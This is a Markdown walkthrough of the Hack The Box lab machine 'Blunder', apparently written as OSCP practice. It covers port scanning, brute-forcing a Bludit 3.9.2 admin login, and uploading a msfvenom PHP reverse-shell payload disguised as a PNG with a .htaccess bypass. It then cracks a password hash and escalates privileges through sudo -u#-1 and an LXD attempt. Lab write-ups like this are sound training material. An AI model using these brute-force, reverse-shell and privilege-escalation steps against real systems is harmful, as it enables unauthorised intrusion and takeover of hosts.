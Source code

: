 # 🧠 HTB: Blunder — Walkthrough

**OS:** [Linux](Linux.md)
**Difficulty:**  [HTB Easy](HTB Easy)  
**Focus:** Bludit RCE, Web enumeration, LXD priv esc  
**Tags:** OSCP Prep, TJNull List

---

## 📡 Recon

### Rustscan

```bash
rustscan -a 10.129.190.208 --ulimit 5000 -- -A
```

### /etc/hosts

```bash
echo "10.129.190.208 blunder.htb" | sudo tee -a /etc/hosts
```

### Directory Fuzzing

```bash
ffuf -w /usr/share/wordlists/dirb/big.txt -u http://blunder.htb/FUZZ
```

---

## 🌐 [Web Enumeration](HTTP)

- Found `/admin` login panel.
- Bludit version found in HTML source: `3.9.2`

---

## 🔍 Credential Brute-force

### Attempt #1 - Default user

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u admin -p /usr/share/wordlists/rockyou.txt
```

### Discovering `fergus` from `todo.txt`

```bash
ffuf -w /usr/share/wordlists/dirb/common.txt -u http://10.10.10.191/FUZZ -e .php,.txt,.html -t 64
```

#### Then retry with `fergus`:

```bash
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p /usr/share/wordlists/rockyou.txt
```

### Custom Wordlist with `cewl`

```bash
cewl -w output.txt http://10.10.10.191
python3 exploit.py -l http://10.10.10.191/admin/login -u fergus -p ./output.txt
```

✅ **Password found:** `RolandDeschain`

---

## 💥 Authenticated RCE Exploit

### Payload Creation

```bash
msfvenom -p php/reverse_php LHOST=10.10.14.3 LPORT=1234 -f raw -b '"' > evil.png
echo -e "<?php $(cat evil.png)" > evil.png
```

### .htaccess File

```bash
echo "RewriteEngine off" > .htaccess
echo "AddType application/x-httpd-php .png" >> .htaccess
```

> Upload both files via Burp Suite and adjust paths to write to `../../tmp/temp`.

### Trigger Payload

```bash
nc -lvnp 1234
curl http://10.10.10.191/bl-content/tmp/temp/evil.png
```

---

## 🐚 Shell as www-data ➝ Enumerate

### Decompressing `config`

```bash
mv config config.gz
gzip -d config.gz
tar -xvf config
```

---

## 👤 Shell as Hugo

### Grep for Credentials

```bash
grep -ir hugo /var/www
```

Found SHA1 hash → Cracked with CrackStation: `Password120`

```bash
su hugo
```

✅ **User Flag:** `/home/hugo/user.txt`

---

## 🧑‍🔧 Privilege Escalation

### Sudo Permissions

```bash
sudo -l
```

Allowed to run `/bin/bash` as any user except root.

```bash
sudo -u shaun /bin/bash
```

### LXD Check

```bash
id
```

If in `lxd` group, proceed with:

```bash
git clone https://github.com/saghul/lxd-alpine-builder.git
cd lxd-alpine-builder
./build-alpine
lxc image import ./alpine-*.tar.gz --alias myimage
```

*(Didn’t work due to missing command... fallback below)*

---

### Sudo Vulnerability Exploit (version < 1.8.28)

```bash
sudo -V
sudo -u#-1 /bin/bash
```

✅ **Root Flag:** `/root/root.txt`
